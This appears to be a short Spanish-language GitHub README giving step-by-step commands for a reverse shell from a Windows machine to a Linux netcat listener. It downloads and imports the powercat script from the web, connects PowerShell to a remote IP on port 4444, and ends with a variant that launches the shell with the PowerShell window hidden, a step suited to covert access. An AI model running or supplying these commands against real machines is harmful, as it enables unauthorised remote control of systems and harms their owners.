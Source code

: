 # RemotePowerShells
Repositorio sobre shell remotas.


\`\`\`markdown
# Shell Remota entre Linux y Windows

Guía paso a paso para establecer una shell remota entre una máquina Linux y una máquina Windows utilizando Netcat y Powercat.

## En la máquina Linux (Listener)

1. Abre una terminal.
2. Ejecuta el siguiente comando para iniciar un listener con Netcat:
   ```bash
   nc -lvp 4444
   ```
   Donde `4444` es el puerto en el que deseas escuchar.

## En la máquina Windows (Conector)

1. Abre PowerShell.
2. Descarga e importa el módulo Powercat con los siguientes comandos:
   \`\`\`powershell
   Invoke-WebRequest "https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1" -OutFile powercat.ps1
   Import-Module ./powercat.ps1
   \`\`\`
3. Conecta tu máquina Windows a la máquina Linux con el siguiente comando:
   \`\`\`powershell
   powercat -c <ip-address> -p 4444 -ep powershell
   \`\`\`
   Donde `<ip-address>` es la dirección IP de tu máquina Linux y `4444` es el puerto que especificaste en el comando Netcat.

Ahora, cuando te conectes desde tu máquina Linux, obtendrás una shell de PowerShell de tu máquina Windows.
\`\`\`

### Inicia una shell remota con la ventana de PowerShell oculta con el siguiente comando:
   ```powershell
   Start-Process powershell -ArgumentList "-WindowStyle Hidden -Command & {powercat -c <ip-address> -p 4444 -ep powershell}" 
   \`\`\`
